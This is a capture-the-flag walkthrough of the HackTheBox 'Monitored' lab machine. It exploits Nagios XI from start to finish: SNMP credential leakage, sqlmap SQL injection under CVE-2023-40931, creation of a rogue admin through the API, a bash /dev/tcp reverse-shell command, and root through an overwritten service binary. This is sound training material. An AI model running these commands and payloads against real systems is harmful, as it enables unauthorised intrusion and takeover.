









# 🛹 Monitored HackTheBox Walkthrough!!

<figure><figcaption></figcaption></figure>

Add the IP into the hosts.

```
sudo nano /etc/hosts
10.10.11.248 nagios.monitored.htb monitored.htb
```

<figure><figcaption><p><a href="https://nagios.monitored.htb/">https://nagios.monitored.htb/</a></p></figcaption></figure>

**NMAP RESULT.**

```
┌──(Batman㉿GC)-[~]
└─$ nmap -A 10.10.11.248 -Pn             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-17 12:24 IST
Nmap scan report for monitored.htb (10.10.11.248)
Host is up (0.19s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.56 (Debian)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/17%OT=22%CT=1%CU=42012%PV=Y%DS=2%DC=T%G=Y%TM=65A7
OS:79F8%P=aarch64-unknown-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I
OS:%TS=A)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=105%GCD=1%ISR=109%T
OS:I=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=
OS:M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE
OS:88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   227.64 ms 10.10.14.1
2   227.68 ms monitored.htb (10.10.11.248)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.77 seconds
```

**SNMP : PORT 161**

```
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|   VMware VMXNET3 Ethernet Controller
|     IP address: 10.10.11.248  Netmask: 255.255.254.0
|     MAC address: 00:50:56:b9:15:fd (VMware)
|_    Type: ethernetCsmacd  Speed: 4 Gbps
```

```
snmpwalk -v2c -c public monitored.htb 1.3.6.1.2.1.25.4.2.1.5 > snmpresult
```

You will find a default credentials.

```
svc:XjH7VCehowpR1xZB
```

<figure><figcaption><p><a href="https://nagios.monitored.htb/nagiosxi/login.php">https://nagios.monitored.htb/nagiosxi/login.php</a></p></figcaption></figure>

You wont be able to login with default credentials.

**GAINING SHELL ACCESS : USER ACCESS**

We have to know how to authenticate using the API in NagiosXI.



```
┌──(Batman㉿GC)-[~]
└─$ curl -POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
{"username":"svc","user_id":"2","auth_token":"55c824578da1ffa6ce75d68f334c2fa195a495b8","valid_min":500,"valid_until":"Wed, 17 Jan 2024 10:33:35 -0500"}

```

A quick search shows that we can use [CVE-2023–40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931) in the `/nagiosxi/admin/banner_message-ajaxhelper.php` endpoint via the `id`parameter. For this we will use the token given to us above.

```
┌──(Batman㉿GC)-[~]
└─$ sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=1ec86e6d63a7db533923217f3db57a35a244e800" --level 5 --risk 3 -p id

**GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
sqlmap identified the following injection point(s) with a total of 993 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (5205=5205) THEN 3 ELSE (SELECT 9942 UNION SELECT 5411) END))&token=1ec86e6d63a7db533923217f3db57a35a244e800

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 2248 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT (ELT(2248=2248,1))),0x7176717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&token=1ec86e6d63a7db533923217f3db57a35a244e800

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=acknowledge_banner_message&id=3 AND (SELECT 7417 FROM (SELECT(SLEEP(5)))JwYk)&token=1ec86e6d63a7db533923217f3db57a35a244e800
---

[20:34:00] **[****INFO**] **the back-end DBMS is MySQL**
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

Now you can pull the database.

Run the following command.

<figure><figcaption></figcaption></figure>

Fetch the entries for table **‘xi\_users’** in database **‘nagiosxi’**, you will find a **API KEY** of administrator to get administrator rights. Also you will find the hashes that looks like **bcrypt**.

Now we want to add a new user with the **API KEY** of administrator.

```
┌──(Batman㉿GC)-[~]
└─$curl -POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=nadmin&password=nadmin&name=nadmin&email=newadmin@monitored.htb&auth_level=admin"

{
    "success": "User account newadmin was added successfully!",
    "user_id": 21
}
```

Now you can login with new user.

<figure><figcaption></figcaption></figure>

Go to **Configure > Core Config Manager**

<figure><figcaption></figcaption></figure>

Go to **Commands > Add New**

<figure><figcaption></figcaption></figure>

Add a new command name, and give reverse shell code in command line and save it.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.40/1337 0>&1'
```

<figure><figcaption></figcaption></figure>

Go to **Monitoring > Services > Add New**.

<figure><figcaption></figcaption></figure>

In check command give the newly added command you created.

Before running **“RUN CHECK COMMAND”** option, You have to start netcat listener on the terminal.

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.11.248] 35532
bash: cannot set terminal process group (75693): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$
```

**PRIVILEGE ESCALATION**

```
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

I focused on **`/usr/local/nagiosxi/scripts/manage_services.sh.`**

```
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status npcd                                                                         
<cal/nagiosxi/scripts/manage_services.sh status npcd                                                                                                        
● npcd.service - Nagios Process Control Daemon                                                                                                              
     Loaded: loaded (/etc/systemd/system/npcd.service; enabled; vendor preset: enabled)                                                                     
     Active: active (running) since Wed 2024-01-17 06:12:38 EST; 4h 54min ago                                                                               
   Main PID: 68029 (npcd)                                                                                                                                   
      Tasks: 2 (limit: 4661)
     Memory: 968.0K
        CPU: 28ms
     CGroup: /system.slice/npcd.service
             ├─68029 /bin/bash /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
             └─68030 bash -i
```

When I run the script I found that this script provides start & stop service, and there is no built in commands.

I also noticed a file **/usr/local/nagios/bin/npcd** which is owned by user **nagios**, and can be modified.

So I modified the binary content in the file by modifying it with reverse shell code.

```
nagios@monitored:~$ rm /usr/local/nagios/bin/npcd
nagios@monitored:~$ nano /usr/local/nagios/bin/npcd
nagios@monitored:~$ chmod +x /usr/local/nagios/bin/npcd
nagios@monitored:/usr/local/nagios/bin$ cat /usr/local/nagios/bin/npcd
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.40/1338 0>&1
```

Now we want to stop the current running process.

```
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

Before we restart the service again, we should run netcat listener on another terminal.

```
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 1338
listening on [any] 1338 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.11.248] 57778
bash: cannot set terminal process group (33082): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/#
```

Hurray!!! Got the root access.

<figure><figcaption><p><a href="https://www.buymeacoffee.com/b4tm4n">https://www.buymeacoffee.com/b4tm4n</a></p></figcaption></figure>
